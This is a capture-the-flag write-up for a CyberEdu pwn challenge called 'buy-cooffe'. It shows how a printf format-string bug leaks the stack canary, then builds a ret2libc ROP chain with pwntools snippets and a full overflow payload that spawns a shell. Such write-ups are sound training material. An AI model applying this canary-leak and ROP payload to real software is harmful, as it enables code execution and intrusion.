




# Write-up: 
##  buy-cooffe  

**Category:** Pwn
**Platform:** CyberEdu
**URL:** `https://app.cyber-edu.co/challenges/9d17bf99-ddd2-465c-b5f9-041ad6993053`

---

First i looked at the binary properties:


So we have a canary on the stack, we cannot run shellcode on stack and we also have PIE(position independent executable).



`Format string leak`: The program reads input using gets(local_28) and immediately prints it using printf(local_28). Since the user controls the format specifiers, this allows me to leak the canary using `%p`.

`Buffer overflow` : The program requests input a second time using `fread(local_28, 1, 0x50, stdin)`. Since the buffer is only 24 bytes long, we can overflow the buffer to craft our final paylod(and also include the canary)

Also we have a gift from the challenge makers, they gave us the address of the printf function!

First I found the canary offset using `findcanary.py` code.



For the local code is 31 but for the remote one is 9. (also the remote uses the libc-2.31.so version)

The Libc.Address is equal to the printf address the code gives us - the offset of printf inside the libc version.

Now we can get `system` and also `/bin/sh` from the libc library:
`system_addr = libc.symbols['system'] `
`bin_sh = next(libc.search(b'/bin/sh'))`

We need the gadged address, `pop rdi; ret`. Pop rdi pops the `/bin/sh` in the rdi register(the first parameter for the function) and then `ret` jumps to the system function.

```python

rop = ROP(libc)
pop_rdi = rop.find_gadget(['pop rdi', 'ret'])[0]

```

Also we got the address of a `ret` instruction for stack alignment:
`ret_gadget = rop.find_gadget(['ret'])[0]`

Only thing that s left is to craft the final payload:


``` bash

payload = flat(
    b'A' * 24,
    canary,
    b'B' * 8,
    ret_gadget,
    pop_rdi,
    bin_sh,
    system_addr
)

```
Buffer : local_28 24 bytes(padding)
Canary: local_10 8 bytes must match the leaked value
Saved RBP: junk we don t care
Return Address: overwritten with our rop chain

`solve.py` contains the script for the solving the challenge locally
`solveextern.py` gets the flag from the remote server

